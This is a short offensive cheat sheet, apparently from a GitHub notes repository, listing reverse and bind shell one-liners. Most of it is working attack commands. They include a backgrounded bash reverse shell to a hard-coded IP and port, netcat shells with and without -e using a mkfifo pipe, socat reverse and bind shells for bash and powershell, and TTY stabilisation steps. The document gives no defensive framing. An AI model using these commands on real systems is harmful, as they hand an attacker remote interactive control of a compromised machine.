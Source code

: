 # Reverse Shells

Power of Two is One with `nohup` and `&`
```bash
# This allows you from one shell create another as a nohup job and background it 
# Two shell from one shell
# Will not work in `script /dev/null -c bash` TTY spawns!
nohup bash -i &>/dev/tcp/10.10.10.10/1337 &
```

## Netcat 

Netcat without -e
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f
```

Netcat with -e
```bash
nc -e /bin/sh 10.10.10.10 1234
```

## Socat

Start a listener:
```bash
socat TCP-L:<PORT> -                                 # connect regardless with '-'
socat -d -d TCP-LISTEN:8080 STDOUT                   # -d -d = increase verbosity of output#
socat TCP4-LISTEN:8080,fork file:filename.txt,create 
# create specifies that a new file will be created.
# fork creates a child process once connection is made to the listener(multiple connections allowed)
```

Connect to reverse Shell:
```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

For Bind Shells start a bind listener
```bash
socat TCP-L:<PORT> EXEC:"bash -li"
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
Connect to target regardless:
```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

Shell stablisation
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
[CTRL+Z]
stty raw -echo; fg 
```
